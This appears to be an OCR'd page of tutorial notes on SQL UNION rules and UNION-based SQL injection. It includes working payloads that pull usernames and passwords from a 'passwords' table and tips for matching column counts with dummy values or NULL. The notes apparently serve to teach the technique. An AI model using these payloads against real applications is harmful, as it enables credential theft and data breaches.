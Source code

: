 - All `SELECT` statements combined with `UNION` must have the same number of columns.    
- The data types of corresponding columns must be compatible.

Error Example:

```sql
SELECT city FROM ports UNION SELECT * FROM ships;
```

Error: `ERROR 1222 (21000): The used SELECT statements have a different number of columns`
### Exploiting UNION for SQL Injection

Example vulnerable query:

```sql
SELECT * FROM products WHERE product_id = 'user_input'
```

Injection payload:

```sql
' UNION SELECT username, password FROM passwords-- '
```

Assumes the `products` table has 2 columns. This query extracts credentials from the `passwords` table.
### Uneven Columns Workaround

If the table you target has fewer/more columns than your injection:

- Fill extra columns with dummy values: numbers or `NULL`
- Ensure correct data types to avoid syntax errors

Example: Original query has 4 columns:

```sql
UNION SELECT username, 2, 3, 4 FROM passwords-- '
```

Output:

```
| product_1 | product_2 | product_3 | product_4 |
|-----------|-----------|-----------|-----------|
| admin     |     2     |     3     |     4     |
```

Use dummy integers to:

- Avoid type mismatch
- Track column positions
### Pro Tip

Use `NULL` instead of static values when unsure of types:

```sql
UNION SELECT username, NULL, NULL, NULL FROM passwords-- '
```

This maintains compatibility with any data type.
